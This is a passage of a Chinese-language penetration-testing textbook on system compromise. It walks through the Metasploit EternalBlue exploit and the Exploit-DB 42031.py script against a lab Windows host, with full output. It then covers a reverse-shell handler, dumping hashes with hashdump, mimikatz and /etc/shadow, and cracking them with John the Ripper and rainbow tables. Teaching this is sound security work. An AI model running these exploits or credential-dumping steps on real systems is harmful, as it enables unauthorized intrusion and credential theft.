当然，还有其他地方可以去查找漏洞利用程序。然而，你开始触碰道德的边缘。所谓的暗网或暗网是你可以搜索漏洞利用程序的一个地方。如果你有 Tor 浏览器，或者只是创建可让任何浏览器连接的代理服务器的软件，你可以开始搜索可以获取此类代码的网站。有一些你可以使用的搜索引擎，更有可能找到这些较暗的网站，例如 Not Evil。不过，有几点需要牢记。一点是，Tor 网络上的网站时有时无。即使 Not Evil 在搜索中返回链接，也不能保证网站是正常运行的。在撰写本文期间浏览 Tor 时，我发现几个网站根本没有响应。

其次，你不知道找到的漏洞利用程序的来源。这里有两个要素。一点是，它可能是非法获得或开发的。这违反了作为认证道德黑客你必须遵守的道德界限。不过，或许更重要的是，除非你非常擅长阅读源代码，即使源代码被混淆，你可能会发现自己正在处理受感染的软件，这可能会以你意想不到的方式危及你和你的目标。这就是为什么与合法且专业的网站和研究人员合作非常重要。

最后，Tor 的初衷是作为一个匿名场所。这不仅包括访问网站的用户，也包括网站本身。学习所有东西的位置会很耗时。这也是非法交易的场所。你可能会在 Tor 网络上找到一些漏洞利用程序，但很有可能，如果找到了，它们会是出售的，而不是仅仅为了社区利益而提供。

## 系统攻陷

漏洞利用，或系统攻陷，对我们将发挥两个目的。其中一个目的是证明漏洞是真实存在的，而不仅仅是理论上的。毕竟，在进行漏洞扫描时，我们会得到系统可能存在漏洞的指示，但直到漏洞被利用之前，不能保证漏洞确实存在，这意味着我们不确定它是否真的需要修复。第二个原因是，利用漏洞并攻陷系统可以让我们更深入地进入组织，从而可能暴露更多漏洞。部分原因是，我们可能能够更深入地访问网络，还因为我们可能能够收集可用于其他系统的凭据。

我将介绍几种不同的系统攻陷方法。我将从 Metasploit 开始，因为这是一种非常常见的方法。应当注意的是，Metasploit 不是唯一可用的漏洞利用框架。有其他商业软件产品可以做与 Metasploit 同样的事情。虽然 Metasploit 有商业产品，如果用于商业目的，你应该购买商业许可证；但也有社区版。此外，你还可以获取预装 Metasploit 的 Kali Linux。其他软件包大约也能做与 Metasploit 相同的事情，你应该查看它们，看看在商业环境中你可能更喜欢哪个。

我们也可以回到 exploit-db，寻找一些额外的漏洞利用可能性。一旦你有了漏洞列表，就可以在漏洞利用数据库中搜索可用的实际漏洞利用程序。我将介绍如何识别模块，然后如何使用它们。如你将看到，在某些情况下，并不总是运行单个脚本那么简单。

### Metasploit 模块

如果存在针对漏洞的已知漏洞利用程序，它很可能已经进入了 Metasploit。这是一个最初作为漏洞利用框架开发的程序。其理念是提供构建块，通过组合一组可用的编程模块，使漏洞利用程序能够快速开发。此外，还有 shellcode 和编码器可用于放入正在开发的漏洞利用程序中。虽然它最初是面向识别漏洞以便轻松创建漏洞利用程序的安全研究人员的漏洞利用框架，但它已成为渗透测试和安全测试人员的首选工具。原因之一是可用于测试系统和网络的大量模块。

渗透测试的几乎整个生命周期都可以在 Metasploit 中处理。撰写本文时，有超过 1,000 个辅助模块，其中许多是可用于侦察和枚举的扫描仪。使用这些模块，你可以了解网络的样子以及有哪些服务可用。你还可以从 OpenVAS、Nessus 以及当然由负责 Metasploit 的同一家公司开发的 Nexpose 导入漏洞扫描。不过，一旦你有了所有这些信息，你就想进入漏洞利用阶段。目前有 1,800


Metasploit 中的漏洞利用模块，尽管数量会因该软件的流行度和 Rapid7 的开发工作而经常发生变化。

Metasploit 使漏洞利用工作比手动创建漏洞利用要容易得多，前提是 Metasploit 有可用的漏洞利用模块。如果没有，如果可能，你将被迫手动创建一个。我们将为此使用命令行，不过还有其他选项，例如如果你从 Rapid7 获取该软件包，可以使用 Web 界面。CLI 会暴露正在发生的一切。我们将从 msfconsole 程序开始。获取 Metasploit 有多种方式，但在这里，我只是使用一个预装 Metasploit 的 Kali Linux 实例。我所需要做的就是设置用于存储主机、漏洞和获取的任何战利品信息的数据库。在下面的列表中，你可以看到启动 msfconsole，这是用于与 Metasploit 交互的命令行程序。

## 启动 msfconsole

```
root@quiche:~# msfconsole
```


```
= [ metasploit v4.17.8-dev ]
+ -- --=[ 1803 exploits - 1027 auxiliary - 311 post ]
+ -- --=[ 538 payloads - 41 encoders - 10 nops ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]
```

```
msf >
```

启动 msfconsole 后，我们需要为已识别的漏洞定位漏洞利用模块。我的家庭网络上有一台 Windows Server，我打算用它来演示漏洞利用。这是一个 Metasploitable 3 实例，因此其中内置了多个易受攻击的服务，非常适合用于演示和练习。要查找漏洞利用模块，我们可以搜索。在下面的列表中，你会看到一个搜索示例，用于查找运行 EternalBlue 漏洞利用的模块，该漏洞利用利用 CVE-2017-0144 中描述的漏洞。此搜索有多个匹配项。我们可以使用一些额外参数来缩小范围，例如使用 type:exploit 指定类型。如果你有很长的结果列表，并且需要更容易识别正确的模块，这可能很有用。

## 搜索 Metasploit

```
msf > search eternalblue

Matching Modules
================

Name                                                   Disclosure Date       Rank    Description
----                                                   -------------       -----   -----------
auxiliary/admin/smb/ms17_010_command                   2017-03-14            normal  MS17-010
EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
auxiliary/scanner/smb/smb_ms17_010                                             normal  MS17-010 SMB RCE Detection
exploit/windows/smb/ms17_010_eternalblue               2017-03-14            average MS17-010 EternalBlue SMB Remote
Windows Kernel Pool Corruption
exploit/windows/smb/ms17_010_eternalblue_win8          2017-03-14            average MS17-010 EternalBlue SMB Remote
Windows Kernel Pool Corruption for Win8+
exploit/windows/smb/ms17_010_psexec                    2017-03-14            normal  MS17-010 EternalRomance/
EternalSynergy/EternalChampion SMB Remote Windows Code Execution
```

这里有不止一个可用，具体取决于我们想要完成什么。在此示例中，我想要在远程系统上获取 shell；辅助模块允许我们在远程系统上执行单个命令，这与以 psexec 结尾的模块相同。因此，我们将使用以 010_eternalblue 结尾的漏洞利用模块，如下一个代码列表所示。这将在远程主机上给我们一个 shell。从该 shell 中，我们可以开始发出命令，而不仅仅是一个命令，而其他模块只允许执行一个命令。

一旦我们知道要使用哪个模块，就使用 msfconsole 中的 use 命令加载它。每个模块都有一组可以或需要设置的选项。在某些情况下，选项已设置默认值，因此你无需执行任何操作。始终需要设置的唯一参数是目标参数。这将是 RHOST 或 RHOSTS，具体取决于模块是否预期有多个目标。例如，扫描器模块将使用 RHOSTS，而漏洞利用模块通常将 RHOST 作为参数名。在下面的代码列表中，我们需要使用漏洞利用尝试的目标 IP 地址设置 RHOST。如预期，漏洞利用成功，使我们能够远程访问目标系统。

## EternalBlue 漏洞利用

```
msf > use exploit/windows/smb/ms17_010_eternalblue
msf exploit(windows/smb/ms17_010_eternalblue) > set RHOST 192.168.86.24
RHOST => 192.168.86.24
msf exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 192.168.86.57:4444
[*] 192.168.86.24:445 - Connecting to target for exploitation.
[+] 192.168.86.24:445 - Connection established for exploitation.
[+] 192.168.86.24:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.86.24:445 - CORE raw buffer dump (51 bytes)
[*] 192.168.86.24:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 192.168.86.24:445 - 0x00000010  30 30 38 20 52 20 53 74 61 6e 64 61 72 64 20 00  008 R2 Standard
[*] 192.168.86.24:445 - 0x00000020  57 37 36 31 30 20 53 65 72 76 69 63 65 50 61 63  k 1
[*] 192.168.86.24:445 - 0x00000030  6b 20 30 20 31
[+] 192.168.86.24:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.86.24:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.86.24:445 - Sending all but last fragment of exploit packet
[*] 192.168.86.24:445 - Starting non-paged pool grooming
[+] 192.168.86.24:445 - Sending SMBv2 buffers
[+] 192.168.86.24:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.86.24:445 - Sending final SMBv2 buffers.
[*] 192.168.86.24:445 - Sending last fragment of exploit packet!
[*] 192.168.86.24:445 - Receiving response from exploit packet
[+] 192.168.86.24:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.86.24:445 - Sending egg to corrupted connection.
[*] 192.168.86.24:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (192.168.86.57:4444 -> 192.168.86.24:50371) at 2018-08-31 19:52:40 -0600
[+] 192.168.86.24:445 - ====================
[+] 192.168.86.24:445 -        -WIN-
[+] 192.168.86.24:445 - ====================
```

并非每个漏洞都像这个一样成功。当你搜索模块时，你会得到一个排名，指示漏洞利用成功的可能性有多大。漏洞并不总是简单直接的。在某些情况下，在漏洞被利用之前可能需要先满足某些依赖项。在成功之前，你可能需要多次尝试漏洞利用。毕竟，如果这很容易且简单直接，每个人都能做到，这可能意味着会进行更多的安全测试，进而可能导致软件中的漏洞更少。

## Exploit-DB

你可以在 exploit-db.com 上搜索与漏洞关联的漏洞利用。例如，我们之前使用的是 EternalBlue 漏洞利用，我们知道它在 Metasploit 中有一个模块。我们可以在 exploit-db.com 上搜索与 EternalBlue 漏洞相关的模块。在图 7.2 中，你可以看到该搜索的结果。这显示了三个属于 Windows 相关类别的结果。这些都是你可以下载和运行的概念验证 Python 脚本。

### 图 7.2 Exploit-DB 搜索结果

| 日期 | V | 标题 | 类型 | 平台 | 作者 |
|---|---|---|---|---|---|
| 2017-07-11 | | Microsoft Windows Windows 7/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB 远程代码执行 (MS17-010) | 远程 | Windows | sleepya |
| 2017-05-17 | | Microsoft Windows Windows 7/2008 R2 - 'EternalBlue' SMB 远程代码执行 (MS17-010) | 远程 | Windows | sleepya |
| 2017-05-17 | | Microsoft Windows Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB 远程代码执行 (MS17-010) | 远程 | Windows_x64 | sleepya |

如果你的系统上已安装 Exploit-DB 软件包（即你有 searchsploit 可用），可以直接运行 searchsploit 来执行相同的搜索。Exploit-DB 仓库包含漏洞利用和 shellcode，因此结果不包括像你从网站获得的那种论文。相反，你只得到漏洞利用代码列表。此外，你不需要在 Web 浏览器中下载或查看代码，因为代码已经下载好了。在下面的代码列表中，你可以看到搜索结果。我们得到的是三个漏洞利用程序的列表，但没有 shellcode 结果。这并不特别令人惊讶，因为没有与 EternalBlue 特别关联的 shellcode。相反，它只是 Server Message Block (SMB) 协议实现中的一个漏洞。

### EternalBlue 的 searchsploit 结果

```
root@quiche:~# searchsploit "eternal blue"
----------------------------------------
Exploit Title | Path
| (/usr/share/exploitdb/)
----------------------------------------
Microsoft Windows Windows 7/2008 R2 (x | exploits/windows_x86-64/remote/42031.py
Microsoft Windows Windows 7/8.1/2008 R | exploits/windows/remote/42315.py
Microsoft Windows Windows 8/8.1/2012 R | exploits/windows_x86-64/remote/42030.py
----------------------------------------
Shellcodes: No Result
```


你可以直接运行此漏洞利用程序，也可以将其复制到你的主目录并在那里运行。这样做可以在你运行它时免去传入 Python 脚本路径的麻烦。它还会让你在需要实验时进行修改，同时保持功能性漏洞利用代码原封不动地留在原处。在下一份代码清单中，你将看到 42031.py 的一次运行，针对的是我们之前从 Metasploit 攻击的同一系统。命令行上的最后一个参数是名为 payload 的文件中的可执行代码。这是两段独立的可执行代码的组合。第一部分是由 Python 漏洞利用程序的作者编写的 shellcode。其末尾是一个存根程序，用于将连接发送回正在监听的系统。

漏洞利用是外部实体导致程序以特定方式失败的手段，这种失败允许攻击者控制程序的执行流程。然而，仅仅导致程序失败是不够的。你需要让程序代表你执行的自己的代码。这就是 shellcode，之所以如此命名，是因为它通常为攻击者提供一个 shell。这意味着攻击者有一种直接与操作系统交互的方式。

## 从 Python 脚本利用 EternalBlue

```
root@quiche:~# python 42031.py 192.168.86.24 payload
shellcode size: 1262
numGroomConn: 13
Target OS: Windows Server 2008 R2 Standard 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
```

这只是攻击的一半。你看到的是漏洞利用成功运行，触发了漏洞并促使远程服务执行提供的 shellcode。此处的 shellcode 是从汇编语言代码创建的可执行文件。它包含一个 Meterpreter shell 以及一种连接回已配置回调系统的方式。这还要求你设置一个监听器。为此，我们再次回到 msfconsole。在下面的清单中，你可以看到加载监听模块、设置监听端口和 IP 地址。当漏洞利用在目标上运行时，你也会看到与监听器的连接。

## 漏洞利用处理器

```
msf > use exploit/multi/handler
msf exploit(multi/handler) > set LHOST 192.168.86.57
LHOST => 192.168.86.57
msf exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf exploit(multi/handler) > exploit
```

这使我们能够使用 Meterpreter 与远程系统交互，Meterpreter 是一种与操作系统无关的 shell 语言。它拥有多个命令，可用于针对目标系统运行，无论目标系统运行什么操作系统。Meterpreter 将传递给它的命令转换为针对底层操作系统的命令。这可能包括列出文件、更改目录、上传文件以及收集密码等系统信息。

### 收集密码

一旦你拥有一个已被攻破的系统，你就会想开始收集其信息。一种信息就是系统上的密码。有几种方法可以收集这些密码。在前面的代码清单中，我们在目标系统上获得了一个 Meterpreter shell。Metasploit 中并非所有漏洞利用都能产生 Meterpreter shell，但如果我们能获得一个，我们在收集信息和进行后期利用工作时就有了一位强大的帮手。使用 Meterpreter，我们可以收集关于系统的信息，以便知道我们将获取什么密码数据。sysinfo 命令将告诉我们系统名称以及操作系统。这告诉我们在抓取密码时将看到的是 LAN Manager 哈希值。我们可以使用 hashdump 命令来做到这一点，如下一个清单所示。

### 使用 Meterpreter 获取密码

```
Computer : WUBBLE-C765F2
OS : Windows XP (Build 2600, Service Pack 2).
Architecture : x86
System Language : en_US
Domain : WORKGROUP
Logged On Users : 2
Meterpreter : x86/windows
meterpreter > hashdump
Administrator:500:ed174b86559f980793e287acb8bfb6a6:5f7277b8636525ad2d2d551867124dbd:::
ASPNET:1003:5b8cce8d8be0de65545ae4da158944afa0:227510be54d4e5285f3537a22e855dfc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:78e6e0596b41f8006c381f86e9eefac3:ef49e487f735954db1536660525657047d:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:2e54affffleaab6b62fc0649b715104187:::
```

hashdump 提供用户名、用户标识符和密码的哈希值。在破解密码时我们需要这些信息。这些凭据在我们继续在网络中移动时会很有帮助。这些凭据可能对其他漏洞有用，或者至少可用于不同的测试程序和 Metasploit 模块。

## 使用 mimikatz 获取密码

不过，这不是我们获取密码哈希的唯一方法。有一个名为 mimikatz 的模块可以使用。我们仍然需要 Meterpreter，以便加载 mimikatz 模块来使用它。在下面的清单中，你可以看到加载 mimikatz 然后提取密码哈希的过程。你可以看到运行 msv 的结果，msv 使用 MSV 身份验证包来提取用户的哈希值。我们也可以使用 mimikatz 查看安全支持提供程序 (SSP) 是否有凭据。最后，我们使用 mimikatz 从活动 SSP 中提取哈希值。只有 MSV 身份验证包在该系统上为我们产生了结果。

```
meterpreter > load mimikatz
Loading extension mimikatz...Success.
meterpreter > msv
[+] Running as SYSTEM
[*] Retrieving msv credentials
msv credentials
===========
```

| 认证 ID | 程序包 | 域 | 用户 | 密码 |
|---|---|---|---|---|
| 0;293526 | NTLM | VAGRANT-2008R2 | vagrant | lm{ 5229b7f52540641daadb3435b51404ee }, ntlm{ e02bc503339d51f71d913c245d35b50b } |
| 0;96746 | NTLM | VAGRANT-2008R2 | sshd_server | lm{ e010ddc244ad2c14829b15382fe0c64 }, ntlm{ 8d0a16cfc061c359db455d00ec27035 } |
| 0;996 | Negotiate | WORKGROUP | VAGRANT-2008R2$ | n.s. (凭据 KO) |
| 0;997 | Negotiate | NT AUTHORITY | LOCAL SERVICE | n.s. (凭据 KO) |
| 0;20243 | NTLM | | | n.s. (凭据 KO) |
| 0;999 | NTLM | WORKGROUP | VAGRANT-2008R2$ | n.s. (凭据 KO) |

```
meterpreter > ssp
[+] Running as SYSTEM
[*] Retrieving ssp credentials
ssp credentials
===========
```

| 认证 ID | 程序包 | 域 | 用户 | 密码 |
|---|---|---|---|---|

```
meterpreter > livessp
[+] Running as SYSTEM
[*] Retrieving livessp credentials
```

### livessp 凭据

| 认证 ID | 程序包 | 域 | 用户 | 密码 |
| :--- | :--- | :--- | :--- | :--- |
| 0;996 | Negotiate | WORKGROUP | VAGRANT-2008R2$ | n.a. (livessp KO) |
| 0;997 | Negotiate | NT AUTHORITY | LOCAL SERVICE | n.a. (livessp KO) |
| 0;293526 | NTLM | VAGRANT-2008R2 | vagrant | n.a. (livessp KO) |
| 0;96746 | NTLM | VAGRANT-2008R2 | sshd_server | n.a. (livessp KO) |
| 0;20243 | NTLM | VAGRANT-2008R2 | | n.a. (livessp KO) |
| 0;999 | NTLM | WORKGROUP | VAGRANT-2008R2$ | n.a. (livessp KO) |

当我们攻破 Linux 系统时，无法使用 hashdump，但我们仍然想要获取密码。我们可以直接从漏洞利用程序中获取 shell，或者如果使用 Meterpreter 有效载荷，可以退回到 shell。这时我们就能访问密码了。在以下代码中，你可以看到从 Meterpreter 退回到 shell。从那里，我们只需使用 cat 来打印 /etc/shadow 文件的内容。我们需要 root 访问权限才能查看 shadow 文件的内容。你可以通过运行 whoami 看到我们已经以 root 身份获得访问权限。如果你想从不授予 root 访问权限的漏洞利用程序中收集密码，你将需要找到一种权限提升方法。

## /etc/shadow 的 shell 访问

```
meterpreter > shell
Process 1 created.
Channel 1 created.
whoami
root
cat /etc/shadow
root:$1$avpfBJI$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
daemon:*14684:0:99999:7:::
bin:*14684:0:99999:7:::
sys:$1$fUX6BP0t$Miyc3Up0zQJqz4s5wFD9l0:14742:0:99999:7:::
sync:*:14684:0:99999:7:::
games:*:14684:0:99999:7:::
man:*:14684:0:99999:7:::
lp:*:14684:0:99999:7:::
mail:*:14684:0:99999:7:::
news:*:14684:0:99999:7:::
uucp:*:14684:0:99999:7:::
proxy:*:14684:0:99999:7:::
www-data:*:14684:0:99999:7:::
backup:*:14684:0:99999:7:::
list:*:14684:0:99999:7:::
```


你会注意到没有提示，这可能会使区分命令和输出变得困难。在输出中，第一个命令是 whoami，用于演示登录的用户是 root。之后，你可以看到命令 cat /etc/shadow 及其输出。显示的大多数用户都没有密码。在此输出中，只有 root 和 sys 似乎有密码。虽然获取此处显示的密码的方式与 Windows 不同，但这些也是哈希。在 Linux 下生成密码哈希所使用的哈希算法与 Windows 不同。不过，无论哪种情况，你都可以使用这些哈希来运行密码破解程序。

## Password Cracking

密码哈希对我们帮助不大。在进行身份验证时，你永远不需要输入密码哈希。每次用户输入密码时，都会生成哈希。然后将生成的哈希与存储的哈希进行比较。传入哈希会导致其被再次哈希，因此该计算产生的哈希将与存储的哈希不匹配。匹配存储哈希的唯一方法是使用密码，或者至少使用能生成相同哈希结果的值。在破解密码时，我们试图识别能生成加密哈希的值。

> 从技术上讲，两个不同的字符串可能生成相同的哈希。由于我们只关心哈希是否相等，输入的值是否真正是密码并不重要。当两个值生成相同的哈希时，这被称为碰撞。避免碰撞的一个好方法是为哈希值提供更大的空间。输出为 256 位的哈希算法，其潜在哈希值的数量比仅生成 128 位的算法多几个数量级。碰撞问题有时被称为生日悖论，它与房间里两个人有相同生日（月和日）的统计概率有关。要让两个人有相同生日的概率达到 50%，房间里只需要 23 个人。到 70 个人时，概率为 99.9%。不过，直到有 366 个人时，概率才达到 100%。

## John the Ripper

一种常用的破解密码的工具是 John the Ripper。John 是一款出色的离线密码破解工具，这意味着它针对的是从原始来源获取的文件。它具有可用于破解密码的不同模式。第一种（你将在下一个代码清单中看到）被称为单模式破解。单模式破解从文件的不同字段中获取信息，对其应用变形规则，然后尝试将其作为密码。由于输入列表相对较小，因此有广泛的变形规则来变化源文本以生成潜在密码。这被认为是 John 用来破解密码的最快模式。这也是 John 的开发者建议你先尝试的模式。

### John 单模式破解

```
root@quiche:~# john passwords.txt
Warning: detected hash type "LM", but the string is also recognized as "NT"
Use the "--format=NT" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "NT-old"
Use the "--format=NT-old" option to force loading these as that type instead
Using default input encoding: UTF-8
Using default target encoding: CP850
Loaded 8 password hashes with no different salts (LM [DES 128/128 SSE2-16])
Press 'q' or Ctrl-C to abort, almost any other key for status
(SUPPORT_388945a0)
(Guest)
BLANDES (Administrator:1)
KSUHCP9 (HelpAssistant:2)
```

John 还可以在单词列表模式下使用单词列表。这是一种简单直接的模式，它将单词列表作为输入，并将每个单词的哈希与密码哈希进行比较。你可以对单词列表应用变形规则，从而生成单词的变体，因为人们经常将已知单词的变体用作密码。单词列表越长，破解密码的机会就越大。然而，单词列表越长，密码破解所需的时间就越长。请记住，单词列表只能识别单词列表中存在的密码。如果某人使用的是长密码短语或真正随机的字符，使用单词列表将无济于事。这意味着你需要尝试另一种模式。

最后，John 使用增量模式来尝试每一种可能的字符组合。然而，要运行此模式，John 需要知道要尝试哪些字符。这可能是所有 ASCII 字符、所有大写字符、所有数字，等等。你还需要让 John 知道密码长度。由于可能的变体数量巨大，除非指定了短密码长度，否则 John 无法在合理时间内遍历所有变体，因此需要停止此模式。

此次 John 的运行针对的是 Windows 密码，这些密码从 Meterpreter 的 hashdump 中收集。如果你想处理 Linux 密码，还需要执行一个额外步骤。在 Unix 的早期（Linux 源自于 Unix），有一个单一文件用于存储用户信息和密码。问题在于，普通用户需要从该文件中获取某些信息，这意味着文件权限必须允许任何人读取。由于密码存储在此处，这就成了一个问题。任何人都可以读取哈希，并使用破解策略从哈希中获取密码。因此，公共信息被存储在一个文件中，该文件仍名为 passwd 以保持向后兼容性，而密码及其相关的必要信息（如用户名和用户 ID）则存储在另一个文件中，即 shadow 文件。

我们可以使用 unshadow 程序合并这两个文件，使所有所需信息集中在一起并进行整合。这将合并 shadow 文件和 passwd 文件中的信息。在此，你可以看到使用捕获的 shadow 文件和 passwd 文件运行 unshadow 的示例。

### 使用 unshadow

```
root@quiche:~# unshadow passwd.local shadow.local
root:$6$ycC28ASuSwMwFkwvikDeKL4VTjgEnYcD.PXG.4uixCikB05jBvE3JjV43nLsfpB1z57qWL
h0SNo1m5fJfyQWEMhLjRv4rR0.:0:0:root:/root:/bin/bash
daemon:*:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:*:2:2:bin:/bin:/usr/sbin/nologin
sys:*:3:3:sys:/dev:/usr/sbin/nologin
sync:*:4:65534:sync:/bin:/bin:sync
games:*:5:60:games:/usr/games:/usr/sbin/nologin
man:*:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:*:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:*:8:8:mail:/var/mail:/usr/sbin/nologin
news:*:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:*:10:10:uucp:/usr/spool/uucp:/usr/sbin/nologin
proxy:*:13:13:proxy:/bin:/usr/sbin/nologin
www-data:*:33:33:www-data:/var/www:/usr/sbin/nologin
backup:*:34:34:backup:/var/backups:/usr/sbin/nologin
list:*:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:*:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
```

如所见，大多数用户都没有密码。此处唯一有密码的用户是 root 用户。一旦使用 unshadow 合并了这两个文件，你就可以针对合并后的文件运行 John 来获取密码。John 将识别文件格式和生成哈希所使用的哈希算法。此信息存储在文件中。密码开头的 $6$ 表示密码已使用安全哈希算法（输出为 512 位，即 SHA-512）进行哈希处理。其后的是 John 将用于比较的哈希密码。不过，John 并不是从本地文件获取密码的唯一方式。

## Rainbow Tables

在使用 John 测试的每个密码中，你都需要计算哈希以进行测试。这需要时间和计算能力。如今的处理器下，所需的时间和计算能力并不算什么大问题，只是会累积起来。数百万个单词中每个单词耗费的微秒会累积成时间。预先计算哈希再运行检查会更容易。然后你只需要在索引中查找哈希并检索


用于创建该哈希的明文。所有耗时的工作都在你需要破解密码之前很久就完成了。当然，这里存在权衡。预计算哈希意味着你需要将它们存储在某个地方。

彩虹表是存储的预计算哈希。彩虹表并不像哈希与密码之间简单映射那样直截了当。彩虹表以链的形式存储，以限制存储的明文密码数量。在某些情况下，如果明文没有直接存储，仍可以推断出来。有许多工具可以用来从这些表中查找密码，但首先我们需要这些表。Rainbow Crack 项目有一个用于查找密码的工具，还有一个用于创建彩虹表的工具。这个创建工具不用于从字典生成哈希。相反，它将根据提供的约束从所有可能的密码值生成一个哈希。在以下代码中，你将看到使用 rtgen 生成彩虹表的示例。

### 使用 rtgen 生成彩虹表

```
root@quiche:~# rtgen md5 loweralpha-numeric 5 8 0 3800 33554432 0
rainbow table md5_loweralpha-numeric#5-8_0_3800x33554432_0.rt parameters
hash algorithm: md5
hash length: 16
charset name: loweralpha-numeric
charset data: abcdefghijklmnopqrstuvwxyz0123456789
charset data in hex: 61 62 63 64 65 66 67 68 69 6a 6b 6c 6d 6e 6f 70 71 72 73
74 75 76 77 78 79 7a 30 31 32 33 34 35 36 37 38 39
charset length: 36
plaintext length range: 5 - 8
reduce offset: 0x00000000
plaintext total: 2901711320064
```

```
sequential starting point begin from 0 (0x0000000000000000)
generating...
131072 of 33554432 rainbow chains generated (0 m 28.5 s)
262144 of 33554432 rainbow chains generated (0 m 28.5 s)
393216 of 33554432 rainbow chains generated (0 m 28.5 s)
524288 of 33554432 rainbow chains generated (0 m 28.5 s)
655360 of 33554432 rainbow chains generated (0 m 28.5 s)
786432 of 33554432 rainbow chains generated (0 m 28.5 s)
917504 of 33554432 rainbow chains generated (0 m 28.5 s)
1048576 of 33554432 rainbow chains generated (0 m 28.5 s)
1179648 of 33554432 rainbow chains generated (0 m 28.5 s)
1310720 of 33554432 rainbow chains generated (0 m 28.5 s)
1441792 of 33554432 rainbow chains generated (0 m 28.5 s)
1572864 of 33554432 rainbow chains generated (0 m 28.6 s)
```

你会注意到传递给 rtgen 的参数。第一个是使用的哈希算法。在此示例中，它是消息摘要算法 5（MD5），一种常用的哈希算法。彩虹表中使用的哈希算法必须与密码文件中使用的算法匹配。如果它们不匹配，你将找不到哈希或密码。下一个参数是用于生成密码的字符集。我们使用小写字母以及数字。这样每个位置就有 36 个可能的字符。这会产生 36^n 个值，其中 n 是位置数。如果我们试图生成四字符密码，则会有 36*36*36*36 个可能的密码，即 1,679,616——近 200 万个四字符密码。

我们需要告诉 rtgen 我们希望密码的长度。命令行上的接下来两个值是最小密码长度和最大密码长度。出于我们的目的，我们生成的密码长度在五到八个字符之间。这意味着总共需要 36^5 + 36^6 + 36^7 + 36^8 个密码。这使得密码数量为 2.8 * 10^12。很显然，我们考虑的密码长度越多，就需要生成的密码越多，输出也就越大。

下一个值选择一个内部于 rtgen 的函数，用于将哈希映射到明文。这被称为缩减函数。接下来两个值与彩虹链有关。第一个是生成的链的数量。生成的链越多，存储在磁盘上的数据就越多，因为这意味着存储了更多的明文。之后的值是要生成的链的数量。彩虹表是一组链的集合，每个链为 16 字节。最后，最后一个值与将大型彩虹表存储在多个文件中的能力相关。要做到这一点，保持所有其他参数相同，并更改此值。

一旦我们有了彩虹表，就可以将我们拥有的密码文件与之核对。你可以在下一个代码清单中看到 rcrack 程序的运行示例。此次运行没有结果，因为使用的彩虹表非常有限。要拥有足够的彩虹表来真正破解密码，我们至少需要千兆字节，甚至太兆字节或更多。这里有两个参数。第一个是彩虹表的位置，此处为点（.），表示本地目录。第二个告诉 rcrack 所提供的文件是一组 LAN Man 哈希。

### 使用彩虹表运行 rcrack

```
root@quiche:~# rcrack . -lm passwords.txt
1 rainbow tables found

no hash found

result
```

关于彩虹表位置需要注意的一点是，它们实际上并不存储在运行 rcrack 的目录中。相反，彩虹表存储在运行此操作的 Kali 系统上的 /usr/share/rainbowcrack 目录中。当你运行 rtgen 时，表会存储在该目录，因为二进制文件位于那里。在此示例中，当前目录是 rcrack 所在的目录，而不是用户所在的目录。

## 客户端漏洞

当然，监听服务并不是获得系统访问权限的唯一方式。事实上，它们不一定是最佳方式。这在一定程度上取决于作为攻击者你在寻找什么。攻击者可能在寻找计算和网络资源。结果可能是任何系统都可以。这意味着系统越多越好，而且通常桌面系统比服务器更多。用户也通常是进入系统的更容易途径。这可能需要客户端漏洞，即存在于桌面上且在没有客户端交互的情况下不会暴露给外部世界的漏洞。例如，邮件客户端中可能存在一个漏洞。攻击者可以触发该漏洞，不是通过探测桌面系统的外部，而是通过向受害者发送电子邮件。客户端系统上的受害者打开电子邮件，漏洞被触发，攻击者获得对系统的访问权限。

Web 浏览器是便捷的攻击载体，原因有多种。其一是它们是最常用的应用程序之一。并非每个人都还在使用 Outlook 或 Thunderbird 等电子邮件客户端，尽管电子邮件客户端曾经非常常用。许多人使用 Web 浏览器来访问他们的电子邮件。浏览器被用于如此多的其他常见功能，以至于对某些人来说，它可能是他们唯一使用的应用程序。可以考虑 Chrome OS 及其运行的 Chromebook 作为示例。Chrome OS 将浏览器用作用户界面。由于 Chrome OS 最初是作为瘦 Web 客户端诞生的，因此你在 Chrome OS 上运行的大多数应用程序都在浏览器上下文中运行。

使浏览器成为绝佳目标的另一个因素是，使用的浏览器种类并不多。来自几个不同来源的数据显示，Chrome 是全球使用最广泛的浏览器，遥遥领先。远远落后于其后的是 Internet Explorer、Firefox、Safari 和 Edge 等浏览器。因此，如果你能找到影响 Windows 上 Chrome 的漏洞，你就能大赚一笔。问题是，Google 在查找和修复漏洞方面往往非常勤勉。Metasploit 中没有针对 Chrome 的漏洞。但是，其他浏览器确实有相关的模块。一个示例是 MacOS 上 Firefox 中的一个漏洞。你可以在此处看到在 msfconsole 中加载此模块。

### msfconsole 中的 Firefox 漏洞利用模块

```
msf > use exploit/osx/browser/mozilla_mchannel
